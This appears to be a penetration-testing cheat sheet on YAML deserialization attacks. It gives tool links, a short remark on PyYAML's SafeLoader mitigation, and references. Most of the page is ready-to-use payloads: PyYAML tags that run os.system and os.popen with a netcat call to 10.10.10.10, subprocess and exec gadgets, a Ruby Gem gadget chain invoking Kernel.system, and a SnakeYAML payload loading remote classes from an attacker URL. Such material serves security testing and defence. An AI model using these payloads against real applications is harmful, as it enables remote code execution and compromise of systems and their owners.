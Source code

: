 # YAML Deserialization

> YAML deserialization is the process of converting YAML-formatted data back into objects in programming languages like Python, Ruby, or Java. YAML (YAML Ain't Markup Language) is popular for configuration files and data serialization because it is human-readable and supports complex data structures.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [PyYAML](#pyyaml)
    * [ruamel.yaml](#ruamelyaml)
    * [Ruby](#ruby)
    * [SnakeYAML](#snakeyaml)
* [References](#references)


## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) - A tiny project for generating SnakeYAML deserialization payloads
* [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Java Unmarshaller Security - Turning your data into code execution


## Methodology

### PyYAML

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for ```load``` has been switched to SafeLoader mitigating the risks against Remote Code Execution.
[PR fixing the vulnerabily](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now ```yaml.unsafe_load``` and ```yaml.load(input, Loader=yaml.UnsafeLoader)```

```
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## Ruamel.yaml

## Ruby

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```


## References

- [Python Yaml Deserialization - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
- [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13, 2021](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
- [PyYAML Documentation - PyYAML - April 29, 2006](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [Blind Remote Code Execution through YAML Deserialization - Colin McQueen - June 9, 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
- [CVE-2019-20477 - 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - Manmeet Singh (@_j0lt) - June 21, 2020](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)